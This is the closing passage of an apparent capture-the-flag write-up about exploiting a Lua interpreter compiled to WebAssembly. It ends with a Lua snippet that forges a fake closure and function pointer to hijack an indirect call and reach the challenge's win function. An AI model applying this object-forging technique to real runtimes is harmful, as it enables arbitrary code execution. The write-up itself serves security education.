 The error message tells us that the binary is trying to
index a function at an index that is out of bound.

Looking at the debugger, this makes a lot of sense,
as the following line is the culprit for the error:

```
call_indirect (param i32) (result i32)
```

Bingo! This tells us that an indirect call
is dispatched on our fake C function.

At this point, the puzzle is complete :)

### Platinum Trophy

Since we can control the index of an indirect
call (which uses the table of indirect functions)
and we know the index to use for the win function,
we can finish up the exploit, supplying the correct parameter:

```lua

# Code
-- function pointer + type
fakeFunction = ubn(199, 8) .. ubn(22, 8)
fakeUpvals = ubn(0x0, 8) .. ubn(addr_of(fakeFunction) + 16, 8)
fakeClosure = ubn(addr_of(fakeUpvals) + 16, 8)

crafted_func = craft_object(fakeClosure)

crafted_func(0x1337)
```

and...

![AltText](/images/alcawasm_win.png)

## Wrapping it up
